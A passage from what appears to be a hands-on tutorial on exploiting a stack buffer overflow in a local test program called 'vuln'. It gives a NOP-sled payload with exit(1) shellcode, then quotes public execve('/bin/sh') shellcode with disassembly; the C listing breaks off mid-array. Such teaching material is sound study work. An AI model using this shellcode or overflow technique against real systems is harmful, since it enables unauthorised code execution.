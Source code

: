 
Our final `payload` should look like something like this in bytes:
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90 \xe8\xcd\xff\xff \x31\xc0\x40\x89\xc3\xcd\x80`

Without further ado, let’s rerun `vuln` with our payload.

{{< figure src="shellcoded.png" width="650">}}

I skipped over the initial things, I believe I don’t need to explain those anymore. As we can see here: 
- `buffer` and `sfp` are filled with `NOP`s
- <span style="color:red">rip</span> at `0xffffcdf4` points towards <span style="color:green">0xffffcdf8</span>
- <span style="color:green">0xffffcdf8</span> up until `0xffffcdff` contains our `exit(1)` shell code.

Let’s skip to `ret` and single step from here just to view it more closely:

{{< figure src="skiptoret.png" width="550">}}

And there you go, we are already executing `exit(1)`. Just to confirm, let’s view the next 5 instructions in the `eip`:

{{< figure src="another5ins.png" width="270">}}

And that’s that. Lets continue and get our sweet sweet `exited with code 01`

{{< figure src="exit2.png" width="400">}}


Now that we have a reliable way to insert longer shell code, lets try `execve("/bin/bash")`

## Beyond the matrix
This is just for fun, we grab [shell code from shell-storm](https://shell-storm.org/shellcode/files/shellcode-811.html) that executes `execve("/bin/bash")`


```c
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
```